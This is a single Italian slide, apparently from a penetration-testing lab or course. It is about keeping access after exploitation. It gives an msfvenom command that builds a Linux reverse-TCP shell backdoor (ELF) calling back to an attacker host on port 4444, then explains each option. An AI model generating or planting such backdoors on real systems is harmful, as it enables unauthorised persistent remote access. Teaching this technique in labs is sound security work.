

# Post Exploitation – Mantaining Access
Utilizziamo il meccanismo di Operating System Backdoor in modo da avere accesso persistente alla macchina.
Creiamo una backdoor utilizzando il framework di Metasploit con il seguente comando:
msfvenom -a x86 –platform linux -p linux/x86/shell/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf -o shell-x86.elf
-a x86 rappresenta l’architettura da utilizzare per il payload;
-platform linux rappresenta il sistema operativo da utilizzare per il payload;
-p linux/x86/shell/reverse_tcp è il tipo di payload selezionato;
LHOST=10.0.2.15 è l’indirizzo IP della macchina Kali che permetterà di instaurare una connessione reverse con la macchina target;
LPORT=4444 è la porta sulla quale sarà stabilità la connessione;
-f elf è il formato del payload (Executable and Linkable Format);
-o shell.elf salva il codice generato nel file che segue l’opzione -o.